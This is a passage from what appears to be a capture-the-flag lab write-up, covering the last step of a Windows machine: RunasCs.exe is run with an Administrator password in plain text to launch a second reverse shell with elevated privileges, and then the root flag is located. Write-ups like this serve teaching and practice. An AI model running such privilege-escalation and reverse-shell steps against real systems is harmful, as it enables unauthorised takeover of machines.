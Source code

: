 ### Executing the Second Reverse Shell with Elevated Privileges

Type the command "`shell`" to open the command prompt from the Meterpreter session, then execute the RunasCs.exe application to run the reverse shell with elevated privileges.

```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw rev2.exe
```

<figure><img src="../../.gitbook/assets/Untitled 51.png" alt=""><figcaption></figcaption></figure>

Now, check the second Meterpreter session for the reverse shell with elevated privileges.

<figure><img src="../../.gitbook/assets/Untitled 52.png" alt=""><figcaption></figcaption></figure>

***

## Getting the Root Flag

You can get the root flag at `C:\Users\Administrator\Desktop` directory.

<figure><img src="../../.gitbook/assets/Untitled 53.png" alt=""><figcaption></figcaption></figure>

We have successfully obtained the user and root flag.

Thank You.....
